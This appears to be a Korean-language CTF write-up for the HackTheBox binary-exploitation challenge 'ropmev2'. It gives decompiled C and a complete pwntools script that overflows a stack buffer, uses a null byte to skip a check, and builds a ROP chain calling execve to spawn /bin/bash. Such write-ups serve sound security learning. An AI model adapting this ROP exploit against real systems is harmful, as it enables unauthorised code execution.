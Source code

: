 ```yaml
---
title: "[HackTheBox]ropmev2"
date: 2020-1-14
tags: [hackthebox.eu]
categories: [hackthebox.eu]
---
```


```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char **v3; // rdx
  char *buf[26]; // [rsp+0h] [rbp-D0h]

  sub_401213();
  printf("Please dont hack me\n", buf);
  read(0, buf, 500uLL);
  if ( !strcmp("DEBUG\n", buf) )
  {
    printf("I dont know what this is %p\n", buf);
    main("I dont know what this is %p\n", buf, v3);
  }
  sub_401238(buf);
  return 0LL;
}
```

buf주소도 주는데 별로 쓸 필요없다. 다른 익스 방법이 있는건지 모르겠다.

buf에 `\x00` 으로 문자열 끝이라고 인식하게 한 다음에 `sub_401238` 함수 우회해주면 된다.

저기서 서버에서 사용하는 쉘이 /bin/sh 쉘이 아니라서 좀 애먹었다. 서버에서는 /bin/bash로 쉘 따야 권한 얻을 수 있다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./ropmev2')
p = process('./ropmev2')
#libc = e.libc
prdi = 0x000000000040142b #pop rdi ; ret
prsi_r15 = 0x0000000000401429 # pop rsi ; pop r15 ; ret
prdx_r13 = 0x0000000000401164 # pop rdx ; pop r13 ; ret
prax = 0x0000000000401162 # pop rax ; ret
main = 0x000000000040116B

payload = '\x00' * 0xd0 + 'realsung'
payload += p64(prdi) + p64(0) + p64(prsi_r15) + p64(e.bss() + 0x100) + p64(0) + p64(prdx_r13) + p64(15) + p64(0) + p64(e.plt['read'])
payload += p64(prax) + p64(59) + p64(prdi) + p64(e.bss() + 0x100) + p64(prsi_r15) + p64(0) + p64(0) + p64(prdx_r13) + p64(0) + p64(0) + p64(0x0000000000401168)
p.sendlineafter('me\n',payload)

p.sendline('/bin/bash\x00')

p.interactive()
```

